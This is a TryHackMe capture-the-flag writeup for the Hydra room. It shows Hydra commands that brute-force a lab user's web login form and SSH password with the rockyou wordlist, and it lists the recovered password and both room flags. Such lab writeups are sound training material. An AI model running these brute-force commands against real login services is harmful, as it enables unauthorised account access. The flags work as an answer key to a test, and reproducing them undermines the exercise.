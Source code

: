 # TryHackMe: Hydra Room Writeup

Here is the writeup for the **Hydra** room of TryHackMe. Let’s dive into it…

---

## Task 1  
**No answer needed**

---

## Task 2

### 1. Use Hydra to bruteforce molly’s web password. What is flag 1?

- **Command Used:**
  ```bash
  sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt <ip> http-post-form "/:login:username=^USER^&password=^PASSWORD^:F=incorrect" -V
  ```

- Using the above command, we obtain the web login password of Molly.

- **Flag 1:**  
  `THM{2673a7dd116de68e85c48ec0b1f2612e}`

<img width="1100" height="626" alt="image" src="https://github.com/user-attachments/assets/e00c3bc8-0449-4efb-900c-ed7430dff50a" />



- After logging in using the credentials, we successfully retrieve the flag.

<img width="1100" height="582" alt="image" src="https://github.com/user-attachments/assets/0c7aae63-4c45-4d95-a20a-ba0d9afd8e2e" />

<img width="1100" height="217" alt="image" src="https://github.com/user-attachments/assets/e037a14b-59a6-4395-81c4-bf0db63f05b6" />

---

### 2. Use Hydra to bruteforce molly’s SSH password. What is flag 2?


- **Command Used:**
  ```bash
  hydra -l molly -P /usr/share/wordlists/rockyou.txt <ip> -t 4 ssh
  ```

  <img width="1100" height="151" alt="image" src="https://github.com/user-attachments/assets/858e0b8e-a999-4a0f-81c7-09b133eee0d3" />


- After running the above command, we obtain the SSH password of Molly.

- Now, connect using SSH with:
  ```bash
  ssh molly@<ip>
  # password: butterfly
  ```

<img width="886" height="445" alt="image" src="https://github.com/user-attachments/assets/a1bed2e7-72a2-49b1-9317-688f29e9423f" />


- **Flag 2:**  
  `THM{c8eeb0468febbadea859baeb33b2541b}`

---

Here we go!

Thanks for reading!

---
